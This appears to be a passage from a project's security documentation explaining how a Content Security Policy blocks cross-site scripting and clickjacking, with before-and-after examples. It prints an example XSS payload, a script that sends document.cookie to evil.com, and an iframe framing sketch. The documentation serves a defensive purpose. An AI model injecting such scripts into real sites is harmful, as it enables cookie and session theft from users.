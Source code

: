 ## Attack Vector Analysis

### XSS (Cross-Site Scripting)

**BEFORE:**
```javascript
// Attacker injects malicious script
<script>
  // This would execute! 😱
  fetch('https://evil.com/steal?cookie=' + document.cookie);
</script>
```
**Result:** ❌ Script executes, data stolen

**AFTER:**
```javascript
// Attacker injects malicious script
<script>
  // Blocked by CSP! 🛡️
  fetch('https://evil.com/steal?cookie=' + document.cookie);
</script>
```
**Result:** ✅ Blocked - CSP violation, script doesn't execute
**Console:** `Refused to execute inline script because it violates CSP directive`

---

### Clickjacking

**BEFORE:**
```html
<!-- Attacker embeds your app in iframe -->
<iframe src="https://naas-calculator.com">
  <!-- Your app loads inside attacker's page 😱 -->
  <!-- Attacker overlays fake UI to steal credentials -->
</iframe>
```
**Result:** ❌ App loads in iframe, user tricked

**AFTER:**
```html
<!-- Attacker tries to embed your app -->
<iframe src="https://naas-calculator.com">
  <!-- Blocked by frame-ancestors 'none' 🛡️ -->
  <!-- Iframe shows error instead -->
</iframe>
```
**Result:** ✅ Blocked - Refused to frame page
**Console:** `Refused to frame because an ancestor violates CSP`

---

### Plugin Attacks (Flash, Java)
